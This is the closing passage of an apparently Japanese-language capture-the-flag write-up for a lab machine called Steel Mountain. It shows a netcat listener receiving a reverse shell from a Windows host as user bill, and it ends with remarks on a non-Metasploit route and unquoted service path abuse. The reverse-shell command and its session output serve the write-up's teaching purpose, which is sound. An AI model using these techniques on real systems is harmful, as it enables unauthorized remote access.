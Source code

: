 
```
root@kali:~# nc -lnvp 1112
listening on [any] 1112 ...
connect to [10.10.245.227] from (UNKNOWN) [10.10.93.43] 50307
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

user が取れました
これ以降はほぼ同じなので割愛します

## 終わりに
OSCP の Learning Path に乗ってるだけあって metasploit なしの方法もしっかり誘導があって良い感じでした。
unquoted service paths を利用した置き換えは初見だったのでホェーとなりました

